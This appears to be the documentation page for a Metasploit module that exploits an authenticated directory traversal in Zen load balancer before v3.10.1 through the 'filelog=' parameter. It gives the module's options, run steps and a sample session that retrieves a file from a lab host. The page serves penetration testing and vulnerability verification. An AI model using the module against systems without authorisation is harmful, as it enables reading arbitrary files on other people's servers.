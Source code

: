 ## Description

Zen load balancer before v3.10.1 is vulnerable to authenticated directory traversal. The flaw exists in 'index.cgi' not properly handling 'filelog=' parameter which allows a malicious actor to load arbitrary file path.

## Vulnerable Application

[Vulnerable ISO](https://sourceforge.net/projects/zenloadbalancer/files/Distro/zenloadbalancer-distro_3.10.1.iso/download)

## Verification Steps

1. `./msfconsole -q`
2. `set RHOSTS <rhost>`
3. `set RPORT <rport>`
4. `set FILEPATH <filepath>`
5. `set ssl <true/false>`
6. `set HttpPassword <admin>`
7. `set HttpUsername <admin>`
5. `run`

## Scenarios

```
msf5 > use auxiliary/scanner/http/zenload_balancer_traversal 
msf5 auxiliary(scanner/http/zenload_balancer_traversal) > set RHOSTS 192.168.1.101
RHOSTS => 192.168.1.101
msf5 auxiliary(scanner/http/zenload_balancer_traversal) > set SSL true 
SSL => true
msf5 auxiliary(scanner/http/zenload_balancer_traversal) > run
[*] Running module against 192.168.1.101

[+] File saved in: /Users/Dhiraj/.msf4/loot/20200412142620_default_192.168.1.101_zenload.http_196293.txt
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/http/zenload_balancer_traversal) >
```
